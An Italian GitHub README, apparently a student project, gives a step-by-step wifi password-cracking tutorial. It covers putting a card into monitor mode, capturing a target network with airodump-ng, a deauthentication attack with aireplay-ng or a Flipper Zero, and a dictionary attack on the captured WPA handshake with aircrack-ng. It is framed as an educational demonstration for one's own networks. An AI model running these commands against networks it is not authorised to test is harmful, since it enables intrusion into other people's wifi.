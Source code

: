 # Password stealing project

Il nostro progetto è stato quello di evidenziare le vulnerabilità di una rete wifi comune a 2.4GHz. Questo progetto nasce solo ed esclusivamente a scopo informativo e vi invitiamo a replicare il progetto con reti create da voi per verificarne le vulnerabilità.

## Listening wifi

Per iniziare ci servirà un OS Linux con scaricato il tool [Aircrack-ng](https://www.aircrack-ng.org/). Possibilmente usate come distro Kali in quanto preinstallato.
Iniziamo aprendo un terminale e seguendo i seguenti comandi: <br>
<span style="color: green"> ciao </span>
```diff
-root💀+kali:~# iwconfig
```
<p align="center">
  <img src="https://cdn.discordapp.com/attachments/894962833773711380/1205236414799806484/1.png?ex=65d7a2e1&is=65c52de1&hm=efddbf203bfb5a72ed726fb09f1d7ef179bfdfb0abc165da05397ee78f9615e9&">
</p>
Una volta eseguito il comando ci usciranno tutte le schede internet che possediamo sulla macchina. Per iniziare creiamo una scheda parallela virtuale per iniziare il listening delle reti: <br>

```bash
root@kali:~# sudo airomon-ng start wlan
```
<p align="center">
  <img src="https://cdn.discordapp.com/attachments/894962833773711380/1205236418083815434/2.png?ex=65d7a2e2&is=65c52de2&hm=bc9a2b588cddc145579de3a42ba85e83914b73f1a3f8b34bc8c5afdd0662ee75&">
</p>
Successivamente per visualizzare tutte le reti disponibili: <br>

```bash
root@kali:~# sudo airodump-ng wlan0mon
```
<br>
<p align="center">
  <img src="https://cdn.discordapp.com/attachments/894962833773711380/1205236418327089172/4.png?ex=65d7a2e2&is=65c52de2&hm=f3a07c39e30e47b8ff61a4d6462ff30ecdab02777c04ae4f9481e96146d5263f&">
</p>
Tra i risultati dobbiamo copiare il BSSID della rete in questione ed eseguire il comando:

```bash
root@kali:~# airodump-ng -canale -w NomeFile -d BSSID wlan0mon
```
In questo modo stiamo verificando solo la rete in questione.
## Deauth attack
Una volta che siamo in listening wifi possiamo procedere con il [Deauth Attack](https://en.wikipedia.org/wiki/Wi-Fi_deauthentication_attack) (Oggi useremo il Flipper Zero ma ci sono altre alternative come ESP32 Marauder ecc...).
Iniziamo facendo una scansione delle reti, selezioniamo la rete in questione e iniziamo l'attacco.
<p align="center">
  <img src="https://cdn.discordapp.com/attachments/894962833773711380/1205237572805201940/IMG_20240208_204300.jpg?ex=65d7a3f5&is=65c52ef5&hm=c392c425e720c22d01c86162d3928e617a214758450acf1ded75b676056fdc25&">
</p>
Attacco deauth integrato <br>

```bash
root@kali:~# sudo aireplay-ng --deauth 0 -a BSSID -c STATION wlan0mon
```
<p align="center">
  <img src="https://cdn.discordapp.com/attachments/894962833773711380/1205236418616627231/5.png?ex=65d7a2e2&is=65c52de2&hm=f9644f3e6bb8f83eaf5c1015c61aa207a690676337c5b10d5e45bde5d71091d4&">
</p>
## WPA handshake decrypt
Una volta effettuato l'attacco sul terminale linux dovremo trovare un WPA handshake. Se non compare continuiamo l'attacco in modo che il dispositivo si ricolleghi. Una volta trovato il WPA handshake nella cartella locale troveremo dei file "NomeFile" che contengono tutte le informazioni che ci servono sulla rete. Per eseguire la decriptazione della password del wifi necessitiamo di un file che contenga molte password da provare sul file criptato. Per iniziare la decriptazione: <br>

```bash
root@kali:~# sudo aircrack-ng NomeFile-01.cap -w Password.txt 
```
<p align="center">
  <img src="https://cdn.discordapp.com/attachments/894962833773711380/1205236418977472573/6.png?ex=65d7a2e2&is=65c52de2&hm=c6b58fe3c05a4b49fa33d9e3d85432edd2f321823269aa00fefa3232dc6756d0&">
</p>
Il tempo di decriptazione può variare in base alla difficoltà della password.

## Tools
[Flipper Zero](https://flipperzero.one/) accoppiato con [ESP32](https://en.wikipedia.org/wiki/ESP32). <br>
Degno sostituto [Marauder](https://github.com/justcallmekoko/ESP32Marauder) sempre con base ESP32. <br>
Tool usato per condividere lo schermo in rete locale[Live-ScreenShare](https://github.com/callmenoway/Live-ScreenShare)
